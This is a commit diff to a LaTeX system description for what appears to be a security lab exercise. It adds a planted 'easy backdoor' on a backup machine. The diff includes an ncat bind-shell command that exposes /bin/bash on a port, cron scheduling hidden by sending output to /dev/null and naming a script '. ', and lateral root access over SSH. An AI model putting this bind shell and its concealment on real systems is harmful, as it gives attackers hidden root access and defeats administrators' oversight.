

Before and after one commit to a-enz/seclabproject, a LaTeX document (System Description/systemdescription.tex): two parts of pages 1 and 4 of 8 before the commit and two parts of pages 1 and 4 of 9 after it, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Added easy backdoor description

```diff
--- a/System Description/systemdescription.tex
+++ b/System Description/systemdescription.tex
@@ -137,7 +137,16 @@ A short description of the components in Figure \ref{fig:system_arch}.
 
 \subsection{Backdoors}
 
-Describe the implemented backdoors.
+\subsubsection{Easy Backdoor}
+We put the easy backdoor on the Backup machine. In certain intervals a port is opened for a short time that is directly bound to a shell. Once the attacker has access to the Backup machine he can ssh as root into all other machines from which backup data is pulled. This is possible because the backup process has root access over ssh to all machines that need to be backed up, since it needs to pull system logs readable only by root.
+
+We did this with netcat listening on port 9844 for 10 seconds:
+ncat -l 9844 -i 10 -v -e /bin/bash
+The interval scheduling is done with a few cronjobs in the crontab of user backup. To obscure those crontab entries, all their output to stdout and stderr is sent to /dev/null. Also the crontab calls a bash script instead of the netcat command, so that is looks a bit less suspicious. Finally that script is hidden with with a not so easy to find name ". ", which makes it more suspicous in the crontab entry but harder to find in general.
+The port opens in a pattern every few minutes. The pattern repeats every 10 minutes and during those opens at minute 0, 1, 3, 5, 6, 8.
+
+The connection is persistent if an attacker connects curing those 10 seconds when the port is open.
+
 
 \bigskip\noindent
 \textbf{Hide this subsection in the version handed over to the reviewing team by setting the flag \texttt{showbackdoors} at the top of this document to \texttt{false}.}
```
